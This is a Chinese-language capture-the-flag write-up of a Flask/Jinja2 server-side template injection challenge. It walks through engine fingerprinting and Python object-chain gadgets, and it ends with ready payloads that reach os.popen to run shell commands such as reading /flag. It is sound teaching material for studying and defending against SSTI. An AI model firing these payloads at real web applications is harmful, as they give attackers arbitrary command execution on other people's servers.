



[BJDCTF 2nd] fake google — 我的第一道 SSTI
题目类型：Web — Flask / Jinja2 模板注入（SSTI）
题目地址：BUUCTF / ctf2 复刻环境
Flag：
CTF2{4ba1fadc-b09a-441d-baf8-191ea2b8a4dd}
题目概述
进入界面只有一个输入框。
先试 SQL 注入，发现无论输入什么，它都直接打印出来——不像是在查数据库。
查看源码，在 qaq 那个位置发现了提示：sssssti & a little trick。这就是 SSTI，模板注入。
这是我第一次做 SSTI，所以每一步都写下来了。
解题过程
Step 1：确认模板被执行
如果回显的是 {{7*7}} 原文，说明只是字符串拼接；回显 49，说明你的输入进了模板引擎，被真的求值了。
Step 2：确认是 Jinja2

这个探针是用来区分引擎的：Jinja2 里 '7' 是字符串，重复 7 次得到 7777777；Twig（PHP）里会当成数字，得到 49。
Step 3：确认是 Flask
config 是 Flask 注入模板的全局变量。它出现就说明是 Flask，顺便还可能看到 SECRET_KEY。
到这一步，两条路都可以走了。
路线一：从字面量往上爬（通用链）
这条路不依赖任何框架给的名字，只靠 Python 的对象关系。
第一环：字符串的类
第二环：它的父类
⚠️ 这里有个坑：__base__（单数）是一个类，不能下标；__bases__（复数）是元组，才能写 [0]。写成 __base__[0] 会返回空。
第三环：所有子类
这一步是分水岭：拿到的是内存里所有已加载的类。
第四环：找一个“身上带着模块全局空间”的类
核心思路：找一个 __init__.__globals__ 里带 __builtins__ 或者直接带 os 的类。
常见的几个候选：
catch_warnings → warnings 模块，globals 里有 __builtins__
_wrap_close → os 模块，globals 里直接有 popen
Popen → subprocess
FileLoader → importlib
怎么知道它们在列表第几个？我写了个本地脚本扫了一遍：

import sys
for i, c in enumerate((''.__class__.__bases__[0].__subclasses__())):
if c.__name__ in ('catch_warnings', '_wrap_close', 'Popen', 'FileLoader'):
print(i, c.__name__, '->', c.__module__ + '.' + c.__name__)
⚠️ 下标是环境相关的。同样的脚本，在不同 Python 版本、不同 import 顺序下会给出不同的数字。我这边 catch_warnings 是 169、_wrap_close 是 117，靶机正好一致才打通的。换个环境就得重扫，或者用按名字筛的写法（见文末）。
第五环：用 _wrap_close 直接拿 popen
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('cat /flag').read()}}
_wrap_close 是 os 模块里的类，它的 __init__.__globals__ 就是 os 模块的全局空间，里面直接有 popen，一步到位。
另一种：用 catch_warnings 走 __builtins__
{{''.__class__.__bases__[0].__subclasses__()[169].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /f*').read()")}}
为什么要绕 eval 和 __import__？因为 catch_warnings 的 globals 里没有 os，但有 __builtins__；__builtins__ 里有 __import__，能 import 就能拿到任何模块。
（__builtins__ 在不同上下文里有时是 dict、有时是模块，所以有的写法用 ['__builtins__']，有的用 .builtins__——注意前者是取键，后者是取属性。）
路线二：从框架给的钩子走（快）
既然确认了是 Flask，就先看看模板里现成给了什么：

它是函数——函数身上就有 __globals__。所以不需要爬几百个子类：
{{url_for.__globals__}} → 一大坨 dict
{{(url_for.__globals__)['os']}} → <module 'os' ...>
{{(url_for.__globals__)['os'].popen('cat /f*').read()}}
三行就出 flag。
这就是两条路的区别：
路线二快，但依赖 Flask 注入了 url_for；路线一慢，但只要是 Python 就通。实战里先试短的，不通再走长的。
解题思路总结
一个输入框 → 试 SQL 注入，内容被原样打印
→ 看源码，qaq 里有提示 sssssti
→ {{7*7}} = 49 确认模板被执行
→ {{7*'7'}} = 7777777 确认是 Jinja2
→ {{config}} 确认是 Flask
├─ 路线一：'' → __class__ → __bases__[0] → __subclasses__()
│ → 挑 _wrap_close(117) / catch_warnings(169)
│ → __init__.__globals__ → popen / __builtins__ → 执行
└─ 路线二：url_for → __globals__ → ['os'] → popen → 执行
漏洞原理
① Jinja2 的 {{ }} 里是表达式，会被求值
用户输入被拼进模板字符串后，{{ }} 里的内容不再当文字，而是交给 Python 求值。这是 SSTI 成立的第一步。
② Python 的属性访问没有边界
从任何一个对象出发，都能顺着 __class__（类）→ __mro__ / __bases__（父类）→ __subclasses__()（所有子类）→ __init__.__globals__（定义时的模块空间）走到执行。这不是漏洞，是语言特性；漏洞在于模板允许你访问这些属性。
③ 框架注入的全局变量是“现成的入口”
Flask 会把 config、request、session、url_for、lipsum、get_flashed_messages 放进模板名字空间。它们本身是函数或对象，身上挂着 __globals__，等于给了一条捷径。
关键知识点
| 知识点 | 说明 |
|---|---|
{{7*7}} / {{7*'7'}} |
引擎探测：回显 49 / 7777777 说明是 Jinja2 |
{{config}} |
Flask 的模板全局，能确认框架、有时能读到 SECRET_KEY |
__class__ |
任何对象都能拿到它的类 |
__base__ vs __bases__ |
前者是单个父类（不可下标），后者是元组（可 [0]） |
__subclasses__() |
内存里所有已加载的类，但下标因环境而异 |
__globals__ |
函数定义时所在的模块全局空间（只有 Python 层函数有，C 层 wrapper 没有） |
__builtins__ |
里面有 __import__，能 import 就能拿任何模块 |
| 点号 vs 方括号 | . 取属性，['x'] 取键，不能写成 .['x'] |
| 生成器 | map / selectattr 返回惰性生成器，要 \|first 或 \|list 才有值 |
| 按名字筛代替下标 | \|selectattr('__name__','equalto','xxx')\|first，跨环境稳定 |
遇到过滤 .__globals__ |
用 \|attr('__globals__') 换形状（本题没有过滤，用不上） |
两条链的完整 payload（本题实测）
# 路线一 · _wrap_close：globals 里直接有 popen
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('cat /flag').read()}}
# 路线一 · catch_warnings：走 __builtins__ → __import__
{{''.__class__.__bases__[0].__subclasses__()[169].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /f*').read()")}}
# 路线二 · url_for 短路
{{(url_for.__globals__)['os'].popen('cat /f*').read()}}